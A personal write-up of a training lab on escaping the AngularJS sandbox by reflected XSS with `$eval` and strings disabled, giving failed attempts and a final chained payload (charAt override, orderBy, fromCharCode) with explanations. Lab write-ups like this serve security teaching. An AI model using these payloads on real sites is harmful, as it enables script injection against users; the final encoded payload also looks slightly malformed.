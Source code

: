 **Lab Description:**
This lab uses AngularJS in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS

To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the `alert` function without using the `$eval` function.

---

## Introduction

This lab featured a reflected Cross-Site Scripting (XSS) vulnerability within a search function built on the AnjularJS framework. The core challenge was to bypass the AngularJS sandbox under strict constraints: the `$eval` function was disabled, and string literals were prohibited. This write-up details the methodology, failed attempts, and the final advanced payload constructed to successfully escape the sandbox and achieve code execution.

In this write-up, I will explain the step-by-step process I followed in my attempts, and I will deconstruct the final payload to understand each step.

---

## 1. Reconnaissance

In this step, I searched for injection vector in system. Vulnerability is a reflected XSS in search function, i searched for any string and analysing the code source with dev tools.

Identify the `<script>` ng
![alt text](<Pasted image 20250830122807.png>)

```javascript
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
                            $scope.query = {};
                            var key = 'search';
                            $scope.query[key] = 'x';
                            $scope.value = $parse(key)($scope.query);
                        });
```

An attempt to inject a simple expression like `{{7*7}}` was unsuccessful, as the input was treated as a literal string. 

I try escape for String with a single quote encoded `&apos;x`, and result is:

![alt text](<Pasted image 20250831093354.png>)

I note in the script, char `&` is null, and duplicate the variables in block.  

```javascript
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
                            $scope.query = {};
                            var key = 'search';
                            $scope.query[key] = '';
                            $scope.value = $parse(key)($scope.query);
                            var key = 'apos;x';
                            $scope.query[key] = '';
                            $scope.value = $parse(key)($scope.query);
                        });
```

However, a ctritical discovery was made when testing special characters, By injecting `&7*7`, I observed that the application was vulnerable to `HTTP Parameter Pollution (HPP)`. The `&` character caused the application create a new, unexpected parameter named ``7*7`` with a value of `49`, as seen in the rendered HTML.

![alt text](<Pasted image 20250831093825.png>)

The confirmed that the injection point was not limited to the `search` parameter's value, but that I could inject new parameters directly into the server-side logic. This became the core strategy for the exploit

---

## 2. Payload and Exploit.

**Attempt #1:** `orderBy` with `fromCharCode`

The lab's constraints (`no $eval`, `no strings`) led to the first advanced payload attempt. The `orderBy` filter was chosen as an alternative execution sink, and `String.fromCharCode()` was use to dynamically build the `alert(1)` string.

**Payload:** `[123]|orderBy:(true.toString()).constructor.fromCharCode(97,108,101,114,116,40,49,41)()`
- `[123]|orderBy:`: Alternative method for `eval`
- `(true.toString())`: access the String "true"
- `constructor.fromCharCode(97,108,101,114,116,40,49,41)()`: access the global using constructor and called the `alert` using the char codes. The final use `()` for function 

**Result:** This payload caused the application to break, displaying the raw template `{{value}}`. This was a crucial clue, suggesting that while the expression was being evaluated, a final security layer (likely a Content Security Policy - CSP) was blocking the execution, causing a fatal error 

![alt text](<Pasted image 20250901221437.png>)

**Attempt #2:** Combinated with `charAt=[].join`

The second payload combinate the other method one of most used for escape sandbox:
`'a'.constructor.prototype.charAt=[].join;`

This payload override the ``String.prototype.charAt`` function with ``[].join``, if sandbox validate to sintaxe, received the full string, the lojic for comparate in JavaScript 'a' <= your_payload return `true`, in this case the expressions is valid.

**Payload:**
```javascript
&true.toString().constructor.prototype.charAt=[].join;(true.toString()).constructor.fromCharCode(97,108,101,114,116,40,49,41)()
```

But, null result

**The Final Payload: Combining Techniques**

The final solution required chaining multiple techniques. To bypass the sandbox's syntax validation which blocked special characters like `=`, the `charAt` bypass was necessary.

The goal was to execute the expression `x=alert(1)=1`. The `fromCharCode` method was used to build the string `x=alert(1)`. This entire structure was then passed to the `orderBy` filter.

In this case, the payload final is:

```javascript
&true.toString().constructor.prototype.charAt=[].join;[123]|orderBy:(true.toString()).constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

An initial attempt failed. I observed that the server-side logic was spliting the payload at the `=` character due to the HPP vulnerability. To bypass this, the first `=` in the payload (`charAt=[].join`) had to be URL-encoded as `%3D`.

```javascript
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
                            $scope.query = {};
                            var key = 'search';
                            $scope.query[key] = '1';
                            $scope.value = $parse(key)($scope.query);
                            var key = 'toString().constructor.prototype.charAt';
                            $scope.query[key] = '[].join;[123]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1';
                            $scope.value = $parse(key)($scope.query);
                        });
```

**Final Successful Payload (URL Encoded):**

```javascript
&true.toString().constructor.prototype.charAt%3D%[].join;[123]|orderBy:(true.toString()).constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

**Result:** This successfully solved the lab. Although the `alert()` pop-up was not visually triggered (likely due to the CSP), the lab's backend detected the successful sandbox escape and registered the solution. This is a common behavior in modern security labs, where the proof of concept is the ability to force a security violation, not necessarily a visible alert.

![alt text](<Pasted image 20250901230324.png>)
![alt text](<Pasted image 20250901230330.png>)


---

## Conclusion

The solution to this lab required a multi-layered approach, mirroring real-world application security. It was not enough to know a single technique; the key was to diagnose the application's behavior at each step and chain multiple exploits together. The successful exploit demonstrated a bypass of string limitations (`fromCharCode`), execution sink restrictions (`orderBy`), sandbox syntax validation (`cahrAt` bypass), and server-side parsing quirks (HPP and URL encoding). This proves that modern web application hacking requires a deep understading of the full request-response cycle and framework specific security features. 